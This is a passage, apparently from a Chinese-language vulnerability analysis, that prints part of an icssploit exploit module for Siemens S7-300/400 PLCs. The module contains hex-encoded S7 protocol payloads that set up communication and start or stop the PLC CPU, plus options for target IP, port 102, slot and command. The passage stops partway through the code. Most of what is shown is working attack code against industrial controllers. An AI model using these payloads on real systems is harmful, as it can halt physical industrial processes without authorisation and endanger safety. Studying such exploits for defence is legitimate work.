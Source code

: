 [![](assets/1707954360-fd8c5ebc984fabc8c68828dd95575d25.png)](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204135125.png)  
利用成功

# 漏洞分析

## exp 分析

利用脚本在 icssploit/modules/exploits/plcs/siemens/s7\_300\_400\_plc\_control.py 下

```bash
import socket
import time

setup_communication_payload = '0300001902f08032010000020000080000f0000002000201e0'.decode('hex')
cpu_start_payload = "0300002502f0803201000005000014000028000000000000fd000009505f50524f4752414d".decode('hex')
cpu_stop_payload = "0300002102f0803201000006000010000029000000000009505f50524f4752414d".decode('hex')

class Exploit(exploits.Exploit):


    target = exploits.Option('', 'Target address e.g. 192.168.1.1', validators=validators.ipv4)
    port = exploits.Option(102, 'Target Port', validators=validators.integer)
    slot = exploits.Option(2, 'CPU slot number.', validators=validators.integer)
    command = exploits.Option(2, 'Command 1:start plc, 2:stop plc.', validators=validators.integer)
    sock = None

    def create_connect(self, slot):
```